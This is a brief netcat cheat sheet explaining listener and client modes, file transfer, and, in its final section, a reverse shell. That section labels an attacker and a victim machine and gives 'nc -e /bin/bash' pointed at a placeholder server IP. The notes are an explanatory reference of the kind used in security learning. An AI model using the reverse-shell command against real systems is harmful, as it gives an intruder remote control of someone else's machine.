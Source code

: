 # netcat

Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

### Server Mode

Use netcat to listen for connections. What this does is open a port (either TCP or UDP) on the system. By default, netcat listens on TCP.

> Basic Listener

```bash
$ nc -lvnp PORT
```

\[-l]: Listen incoming connection \[-v]: Verbose output \[-n]: Do not do DNS \[-p]: Specifies source port nc should use

To listen on UDP, must use `-u`.

### Client Mode

Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection

```bash
$ nc -vn @IP PORT
```

For a UDP connection, we only add the `-u` option.

### File Transfer

Transfer files over the connection from one system to another without distortion.

> Listener

```bash
nc -lp PORT > /path/to/outfile 
```

> Client

```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```

\[-w]: Define the timeout in seconds.

### Reverse Shell

Use netcat in server mode to listen for connections, then supply the shell from the client. This will allow the session on the server to run commands on the client once the shell is received.

> Server (Attacker Machine)

```bash
$ nc -lvnp 8080
```

> Client (Victim Machine)

```bash
$ nc -e /bin/bash @Server_IP PORT
```

\[-e]: Execute external program after accepting a connection or making a connection.
